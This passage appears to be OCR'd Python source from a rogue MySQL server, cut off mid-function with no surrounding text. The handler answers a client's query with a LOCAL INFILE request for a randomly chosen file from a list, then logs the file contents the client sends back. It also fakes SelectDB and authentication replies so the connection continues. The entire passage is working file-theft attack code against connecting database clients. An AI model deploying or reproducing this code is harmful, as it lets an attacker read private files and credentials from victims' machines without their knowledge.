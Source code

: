 ```
                packet = mysql_packet.parse(data)
                try:
                    if self.order != packet.packet_num:
                        raise OutOfOrder()
                    else:
                        # Fix ?
                        self.order = packet.packet_num + 2
                    if packet.packet_num == 0:
                        if packet.payload[0] == '\x03':
                            log.info('Query')

                            filename = random.choice(filelist)
                            PACKET = mysql_packet(
                                packet,
                                '\xFB{0}'.format(filename)
                            )
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.sub_state = 'File'
                            self.push(PACKET)
                        elif packet.payload[0] == '\x1b':
                            log.info('SelectDB')
                            self.push(mysql_packet(
                                packet,
                                '\xfe\x00\x00\x02\x00'
                            ))
                            raise LastPacket()
                        elif packet.payload[0] in '\x02':
                            self.push(mysql_packet(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise LastPacket()
                        elif packet.payload == '\x00\x01':
                            self.push(None)
                            self.close_when_done()
                        else:
                            raise ValueError()
                    else:
                        if self.sub_state == 'File':
                            log.info('-- result')
                            log.info('Result: %r', data)

                            if len(data) == 1:
                                self.push(
                                    mysql_packet(packet, '\0\0\0\x02\0\0\0')
                                )
                                raise LastPacket()
                            else:
                                self.set_terminator(3)
                                self.state = 'LEN'
                                self.order = packet.packet_num + 1

                        elif self.sub_state == 'Auth':
                            self.push(mysql_packet(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise LastPacket()
                        else:
                            log.info('-- else')
                            raise ValueError('Unknown packet')
                except LastPacket:
                    log.info('Last packet')
                    self.state = 'LEN'
```